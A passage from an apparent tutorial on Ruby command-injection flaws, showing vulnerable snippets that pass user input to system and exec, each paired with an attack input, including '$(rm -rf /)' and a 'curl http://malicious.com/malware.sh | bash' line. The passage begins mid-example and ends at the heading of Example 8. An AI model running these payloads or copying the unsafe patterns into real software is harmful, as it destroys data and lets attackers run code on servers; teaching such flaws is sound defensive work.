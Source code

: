 #### Attack:

Input: `User.create_method(:hack)` followed by `user.hack("system('ls')")`
This runs `ls` and lists all files in the server directory.

---

### **Example 6: Unsafe String Interpolation**

#### Scenario:

An application constructs and executes commands dynamically using string interpolation.

**Vulnerable Code**:

```ruby
def execute_command(command)
  system("echo #{command}")
end
```

#### Attack:

Input: `$(rm -rf /)`
The system call becomes:

```bash
echo $(rm -rf /)
```

This deletes all files on the server.

---

### **Example 7: Unsafe Use of `Kernel#exec`**

#### Scenario:

An application uses `Kernel#exec` to allow users to execute system commands.

**Vulnerable Code**:

```ruby
def run_command(command)
  exec(command)  # Directly executes user-provided command
end
```

#### Attack:

Input: `ls; curl http://malicious.com/malware.sh | bash`
This executes the `ls` command and downloads/executes a malicious script.

---

### **Example 8: Command Execution in Template Rendering**

